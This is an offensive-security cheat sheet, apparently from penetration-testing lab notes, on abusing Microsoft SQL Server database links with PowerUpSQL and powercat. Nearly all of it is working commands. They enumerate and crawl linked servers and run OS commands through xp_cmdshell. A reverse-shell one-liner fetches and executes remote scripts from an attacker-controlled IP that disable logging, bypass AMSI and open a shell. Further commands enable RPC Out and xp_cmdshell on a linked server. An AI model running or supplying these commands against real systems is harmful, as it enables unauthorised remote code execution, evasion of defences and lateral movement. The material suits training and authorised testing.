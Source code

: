 # Methodology
>1. Enumerate links to remote servers.
>2. Abuse links to get foothold on remote servers.

---
# Powershell
>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

## PowerUpSQL
https://github.com/NetSPI/PowerUpSQL/blob/master/PowerUpSQL.psd1

**Enumerate MSSQL links:**
```powershell
Get-SQLServerLink -Instance us-mssql.us.techcorp.local -Verbose
```

**Crawl MSSQL links:**
```powershell
Get-SQLServerLinkCrawl -Instance us-mssql -Verbose
```

**Execute command where xp_cmdshell enabled:**
```powershell
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''
```

**Reverse shell on specific MSSQL instance with disabled logging, AMSI bypass and powercat.ps1:**
https://github.com/besimorhino/powercat/blob/master/powercat.ps1
```powershell
# Set up listener
powercat -l -v -p 443 -t 1000

# Reverse shell
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.1.131/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.1.131/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.1.131/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget db-sqlsrv
```

**Enable RPC Out and xp_cmdshell:**
```powershell
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc', @optvalue='TRUE'"
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc out', @optvalue='TRUE'"
Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT ""db-sqlsrv"""
```